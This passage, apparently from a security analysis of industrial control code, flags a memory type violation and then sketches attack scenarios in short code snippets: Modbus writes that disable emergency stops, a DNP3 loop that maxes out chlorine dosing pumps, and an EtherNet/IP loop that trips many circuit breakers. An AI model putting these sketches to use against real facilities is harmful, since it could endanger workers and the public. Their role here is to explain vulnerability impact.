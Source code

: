 ```cpp
// TYPE VIOLATION: Bitwise operations on unvalidated memory
if(bool_output[position/8][position%8] != NULL)
{
    bitWrite(buffer[4+i], j, *bool_output[position/8][position%8]);
         // ^^^^^^^^^^^^ No validation that this is actually boolean
}
```

**Attack Vector**: Manipulate memory to contain non-boolean values, causing bitwise operation corruption.

## Real-World ICS Attack Implications

### 1. Manufacturing Process Disruption

**Attack Scenario**: Modbus client sends crafted packets targeting safety interlocks:

```python
# ATTACK: Disable emergency stop systems
modbus_write_coil(target_plc, address=0x1000, value=False)  # Emergency stop
modbus_write_coil(target_plc, address=0x1001, value=True)   # Override safety
```

**Industrial Impact**:
- Production line emergency stops disabled
- Safety systems bypassed
- Equipment damage from over-pressure/over-temperature
- Worker safety compromised

### 2. Water Treatment Plant Attack

**Attack Scenario**: DNP3 commands manipulating chemical dosing pumps:

```cpp
// ATTACK: Over-dose chlorine by manipulating analog outputs  
AnalogOutputInt16 poison_command;
poison_command.value = 0xFFFF;  // Maximum chemical dose
// Send to multiple dosing pump addresses
for(uint16_t pump = 100; pump < 110; pump++) {
    dnp3_master.ImmediateControl(poison_command, pump);
}
```

**Industrial Impact**:
- Dangerous chemical levels in water supply
- Public health emergency  
- Environmental contamination
- Regulatory compliance violations

### 3. Power Grid Substation Attack

**Attack Scenario**: EtherNet/IP manipulation of circuit breaker controls:

```cpp
// ATTACK: Simultaneous breaker tripping causing cascading failure
for(int breaker = 0; breaker < 50; breaker++) {
    enip_write_tag("Circuit_Breaker_" + to_string(breaker), OPEN);
}
```
